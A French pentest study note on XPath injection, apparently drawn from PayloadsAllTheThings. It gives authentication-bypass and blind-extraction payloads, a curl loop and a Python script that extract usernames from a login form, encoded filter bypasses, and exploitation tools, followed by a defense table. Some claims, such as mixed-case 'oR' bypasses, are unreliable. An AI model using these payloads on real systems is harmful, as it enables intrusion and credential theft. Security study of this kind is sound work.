

# XPATH Injection

> [!info] **En 1 phrase**
> XPath Injection = injecter du code XPath dans une requête XML en manipulant des **entrées utilisateur**
> non filtrées → bypass d'authentification, **lecture complète du document XML** (comme une base de données), extraction aveugle.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Quand l'app concatène l'entrée dans une expression XPath sans la valider
> (`string(//user[name/text()='` + `$input` + `']/pass/text())`), on peut **sortir du prédicat**
> et réécrire la condition. XPath n'a **aucun paramétrage natif** : seule la validation stricte protège.

---

## Rappel XPath

XPath = langage de navigation sur un **arbre XML**. Il sert aussi de langage de requête
pour des bases « XML natives » (fichiers .xml, SOAP, REST XML, LDAP-like, configs).

```xml
<?xml version="1.0"?>
<users>
  <user id="1"><name>admin</name><password>P@ssw0rd</password><role>admin</role></user>
  <user id="2"><name>guest</name><password>guest</password><role>user</role></user>
</users>
```

### Syntaxe de base

```xpath
/users                        # enfants directs de la racine
/users/user                   # tous les user, enfants de users
//user                        # tous les user où qu'ils soient (descendants, //)
/user[@id='1']                # prédicat [condition] sur un attribut
/users/user[1]                # premier nœud (index 1-based !)
//user[name/text()='admin']   # condition sur le texte d'un nœud enfant
//user[role='admin']/name     # navigation après filtrage (contexte = nœud courant)
text()                        # texte du nœud (vs nom du nœud)
/@id                          # valeur de l'attribut id
../                           # nœud parent
```

### Axes & fonctions utiles

```xpath
child::   parent::   following-sibling::   preceding-sibling::   descendant::
//*                         # TOUS les éléments de l'arbre (dump complet)
//node()                    # tous les nœuds (éléments + textes + attributs)
//@*                        # tous les attributs
count(//user)               # nombre de nœuds (string-length aussi dispo)
string-length(//user/name)  # longueur d'une chaîne (→ blind)
substring(//user/name, 2, 1)# 1 caractère à la position 2 (1-based)
concat('a','b','c')         # concaténation
name(/*)                    # nom du premier élément (racine)
codepoints-to-string(65)    # int → caractère (blind char)
string-to-codepoints('A')   # caractère → int
normalize-space(x)          # supprime espaces/retours de ligne
contains(x,'y')             # sous-chaîne
starts-with(x,'y')          # préfixe
translate(x,'abc','XYZ')    # remplacement de caractères (bypass filtres)
```

> [!tip] **XPath est indexé à partir de 1** (pas 0 comme SQL/PHP) : `substring(x,1,1)` = premier caractère.

---

## Authentication Bypass

```xpath
-- Requête initiale (typique)
string(//user[name/text()='INPUT_USER' and password/text()='INPUT_PASS']/account/text())

-- Bypass total (user injecté)  → condition toujours vraie
' or '1'='1
-- string(//user[name/text()='' or '1'='1' and password/text()='...']/account/text())

-- Bypass sur les DEUX champs
' or '1'='1' or '1'='1
-- → name='' or '1'='1' or '1'='1' and password='' or '1'='1' or '1'='1'

-- Variantes classiques
' or ''='
x' or 1=1 or 'x'='y
' or 'a'='a' or 'a'='a
' or '1'='1' or '1'='1' or '1'='1
admin' or '1'='1
' or 1=1 and ''='
```

> [!warning] **Ordre d'évaluation des opérateurs** : `and` est évalué AVANT `or`
> dans les prédicats XPath. Un `' or '1'='1` seul peut ne pas suffire selon la position de la
> variable dans la condition — d'où le double `' or '1'='1' or '1'='1` qui neutralise les deux côtés.

```xpath
-- Recherche directe de comptes (fuzzing de rôles / usernames)
' or name()='username' or 'x'='y
' or 1=1 or name()='password
' or 1=1 or string-length(name())=4
```

---

## Blind XPath

> Quand les résultats ne sont plus affichés, on interroge par **oracle booléen** : la page
> répond différemment (login OK / pas de résultat / message d'erreur) selon que la condition est vraie ou fausse.

### Boolean based

```xpath
-- Confirmation (différence de comportement)
' and '1'='1              → login OK
' and '1'='2              → login KO  → injectable

-- Taille d'une valeur
' and string-length(//user[userid=5]/username)=SIZE_INT and '1'='1
' and string-length(name(/*[1]))=5 and '1'='1      -- taille du nom de la racine

-- Compteurs de structure
' and count(/*)=1 and '1'='1               -- 1 élément racine
' and count(/@*)=1 and '1'='1              -- 1 attribut
' and count(/comment())=1 and '1'='1       -- 1 commentaire
' and count(//user)=3 and '1'='1           -- 3 nœuds user
' and count(//user[1]/*)=4 and '1'='1      -- 4 enfants sur le 1er user

-- Caractère par caractère (booléen par caractère)
' and substring(//user[userid=5]/username,2,1)='c' and '1'='1
-- Comparaison directe (ASCII) → dichotomie pour aller plus vite
' and string-to-codepoints(substring(//user[userid=5]/username,1,1))>97 and '1'='1

-- Comparaison par intervalle (recherche binaire, ~log2(128)=7 requêtes/char)
' and substring(//user[userid=5]/username,1,1) >= 'm' and '1'='1
```

### Extraction sans quote (quand `'` est filtré)

```xpath
-- codepoints-to-string : construire le caractère à comparer
' and substring(//user[userid=5]/username,2,1)=codepoints-to-string(99) and '1'='1
' and substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT) and '1'='1
-- 99 = 'c', 65 = 'A' ... → on teste des entiers, jamais de quote dans le payload
```

### Time based

```xpath
-- Pas de SLEEP natif : on force une réponse lente par calcul lourd
' and count(//*) = count(//*) or count(//*)=count(//*) or '1'='1   -- plus le doc est gros, plus c'est lent
-- Variante : lourdes itérations via substring + string-length
' and string-length(//user[userid=1]/username)=string-length(//user[userid=1]/username) and '1'='1
```

> [!tip] Le time-based XPath pur est **rarement fiable** (le doc XML est souvent petit).
> Préférer le **boolean based** ; garder le timing pour détecter la présence d'une app lente
> ou pour l'exfiltration OOB.

### Script d'extraction automatisée

```bash
# Extraction blind : longueur puis chaque caractère (avec curl)
for i in $(seq 1 30); do
  curl -s "http://target/login" --data "user=' and string-length(//user[userid=5]/username)=$i and '1'='1&pass=x"
  # ... comparer la réponse OK/KO → on obtient la taille
done
```

```python
import requests
# Extraction : condition vraie → "OK" dans la réponse
for pos in range(1, 30):
    lo, hi = 32, 126
    while lo < hi:                       # dichotomie
        mid = (lo + hi) // 2
        payload = f"' and string-to-codepoints(substring(//user[userid=5]/username,{pos},1))>{mid} and '1'='1"
        r = requests.post("http://target/login", data={"user": payload, "pass": "x"})
        if b"OK" in r.content:
            lo = mid + 1
        else:
            hi = mid
    print(chr(lo), end="", flush=True)
```

---

## Information Disclosure (dump du document)

> Contrairement au SQLi, pas de `information_schema` : **l'exploration se fait par la structure
> de l'arbre elle-même** (`//*`, `name()`, `count()`, `text()`). On peut récupérer TOUT le fichier XML.

```xpath
-- Requêtes de dump (à injecter là où l'app affiche le résultat)
//*                                -- tous les éléments
//node()                           -- tous les nœuds (textes inclus)
//*[text()]                        -- éléments avec du texte
//*[@*]                            -- éléments ayant des attributs
/descendant::*/text()              -- tout le texte de l'arbre

-- Énumération de structure
' or name()='username' or 'x'='y   -- trouver les noms de nœuds (username, password...)
' or 1=1 or string-length(name())=8

-- Extraction ciblée (si la requête affiche le résultat)
string(//user[role='admin']/password)
//user/password/text()
//user[1]/password

-- Requête qui retourne TOUT (concaténation)
concat(//user[1]/name/text(), ':', //user[1]/password/text())
```

> [!tip] **Contextes d'utilisation**
> - Résultat **affiché** → dump direct via `//*` ou `//node()`.
> - Résultat **utilisé dans une condition** → blind (ci-dessus).
> - Résultat **invisible** → OOB (`doc()` / appels réseau) ou time-based.

---

## Bypass de filtres

> Les WAF/filtres bloquent souvent les mots-clés (`and`, `or`, `contains`, `//`) ou les quotes.
> XPath offre **énormément de fonctions équivalentes**.

```xpath
-- Casse (XPath est case-sensitive sur les fonctions MAIS insensible aux encodages)
' oR '1'='1
' Or '1'='1
' OR '1'='1

-- Équivalents de comparison
contains(x,'y')            →  translate(x,'y','')!=x        -- "contient" sans contains
substring(x,1,1)='y'       →  starts-with(x,'y')
substring(x,1,1)='y'       →  translate(x,'y','')!=x
string-length(x)=N         →  count(x)/count(x) etc.

-- translate : remplacement/élimination de caractères (bypass de filtres sur les lettres)
' or translate('1','1','1')=translate('1','1','1') or '1'='1     -- 1=1 sans le chiffre écrit tel quel
-- Ex : filtrer le mot "password" → le reconstruire
string(//user[translate(name(),'p','P')='PASSWORD']/../password)
```

```bash
# Encodages URL (détection / bypass basique)
%27%20or%20%271%27=%271         # ' or '1'='1
%2527%2520or%2520%25271%2527    # double URL-encodage
%0a%09%20                        # whitespace alternatifs (newline, tab)

# Encodage HTML
&#39; or &#49;&#61;&#49;
&#x27; or &#x31;&#x3D;&#x31;
```

> [!warning] **Les fonctions XPath sont case-sensitive** : `contains()` ≠ `Contains()`.
> Ne pas sur-obfusquer : un filtre par défaut qui bloque `contains` sera souvent aussi
> contourné par `starts-with`, `substring`, `translate` ou `normalize-space`.

---

## Outils

| Outil | Usage |
|---|---|
| [xxxpwn](https://github.com/feakk/xxxpwn) | Tool d'exploitation XPath avancé (payloads + fuzzing) |
| [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) | Fork avec autocomplétion prédictive (extraction plus rapide) |
| [xcat](https://github.com/orf/xcat) | Automatise l'extraction de documents via injection XPath |
| [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer) | Exploration blind dédiée |
| [XMLCHOR](https://github.com/Harshal35/XMLCHOR) | Exploitation XPath (payloads intégrés) |
| Burp Suite Intruder | Fuzzing des caractères `' " ) ( / *` sur chaque paramètre + `Comparison : does not respond` |
| wfuzz / ffuf | Fuzzing de dictionnaire de payloads XPath |

```bash
# Workflow de détection manuel (Burp → Repeater)
# 1. Injecter chaque caractère : ' " ) ( / * @ .
# 2. Observer : erreur de parseur XML ? résultat différent ? login KO ?
# 3. Tester la tautologie : ' or '1'='1
# 4. Tester la contradiction : ' and '1'='2
# 5. Si OK/KO distincts → blind. Si erreurs → error-based. Sinon → timing.
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Ne jamais exécuter de XPath construit côté client** | Le XPath doit être **statique** (ex : `//user[@username=$user]`), jamais concaténé avec une entrée |
| **Pré-requêtes / deux étapes** | Faire d'abord une requête de type « trouver l'utilisateur », puis comparer le mot de passe **dans l'application** (pas dans le XPath) |
| **XML séparé des données** | Ne jamais stocker mots de passe / rôles dans un fichier XML requêtable ; utiliser une vraie base + accès typé |
| **Validation stricte des entrées** | Allowlist de caractères (alphanumériques), longueur max, rejet des `' " ( ) / *` pour les champs attendus |
| **Échappement (last resort)** | Si vraiment dynamique : `translate(input, "'\")", "")` du côté **serveur**, pas côté client |
| **Ne pas afficher les erreurs XML** | Les messages du parseur donnent la structure du document → forcer le blind côté attaquant |
| **Permissions / moindre privilège** | Le compte applicatif ne doit lire que les XML dont il a besoin |
| **Surveillance** | Logs des erreurs de parseur XML, entrées contenant `//`, `[`, `string(` ou des quotes en rafale |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. Tester `' " ) ( / * @` → erreur = parseur XML = candidat.
> 2. Confirmer : `' or '1'='1` (login OK) puis `' and '1'='2` (login KO).
> 3. Résultat affiché ? → dump direct (`//*`, `//node()`).
> 4. Sinon → blind boolean, extraction `string-length` + `substring` (+ dichotomie).
> 5. Aucune différence ? → timing ou OOB (`doc('//IP/...')`).

> [!warning] **Pièges à connaître**
> - **Contexte (query vs result)** : injecter dans la *query* modifie ce qu'on cherche ;
>   injecter dans la *condition d'affichage* modifie ce qu'on lit. Le même payload n'agit pas pareil.
> - **XPath est typé sur les chaînes** : `1=1` peut être traité comme comparaison de chaînes ;
>   les chiffres passent souvent « en vrac ». Préférer `'1'='1` pour une comparaison string sûre.
> - **`substring`/index sont 1-based** : `substring(x,0,1)` ne renvoie rien, `x[0]` n'existe pas.
> - **`and` avant `or`** dans les prédicats → toujours neutraliser les deux côtés d'une condition.
> - **`//*` retourne des nœuds, pas toujours du texte** : penser à `/text()` ou `string()`.
> - **Casse sensible** : `count` ≠ `COUNT` (mais les encodages et la casse du payload sont libres).
> - **Pas de base de données de méta** : tout se récupère par `name()`, `count()`, `string-length()`.

---

## Liens

- [[Injection SQL| SQLi]] — la même logique côté bases SQL (paramétrage, blind, dump)
- [[XXE| XXE]] — injection XML côté parseur (lecture de fichiers / SSRF via entités)
- [[LDAP Injection| LDAP]] — requêtes de filtrage avec conditions `&` `|`, blind similaire
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — XPath Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md)
